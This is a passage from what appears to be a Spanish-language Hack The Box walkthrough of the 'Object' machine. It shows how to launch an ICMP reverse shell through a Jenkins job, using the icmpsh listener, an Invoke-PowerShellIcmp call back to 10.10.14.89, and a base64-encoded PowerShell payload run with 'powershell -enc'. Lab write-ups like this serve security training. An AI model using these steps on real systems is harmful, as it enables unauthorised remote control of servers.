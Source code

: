 Ahora bien, seguimos teniendo el problema de que no podemos conectarnos a nuestra máquina para obtener el archivo de powershell para su ejecución. Para solucionar esto, convertiremos el contenido del archivo a base64 y lo ejecutaremos con ```powershell -enc [BASE64]``` directamente en el job de jenkins.

Para preparar la correcta ejecución del script, se debe hacer lo siguiente:

1. Ejecutar el comando ```sysctl -w net.ipv4.icmp_echo_ignore_all=1``` en nuestra máquina local.
2. Descargar la herramienta [icmpsh](https://github.com/inquisb/icmpsh) y ejecutarla para obtener el listener de la reverse shell.
3. Copiar la sentencia ```Invoke-PowerShellIcmp -IPAddress 10.10.14.89``` al final del script para lanzar la consola con una única ejecución.

![](/images/HTB/Object/87-prepare-icmp-shell.png)

![](/images/HTB/Object/88-prepare-icmp-shell.png)

Una vez esto se encuentra realizado, eliminaremos los comentarios y líneas vacías del script para compactar su contenido y encodearlo en **base64**.

```bash
cat icmp.ps1 | iconv -t utf-16le | base64 -w 0
```

![](/images/HTB/Object/90-encoded-shell.png)

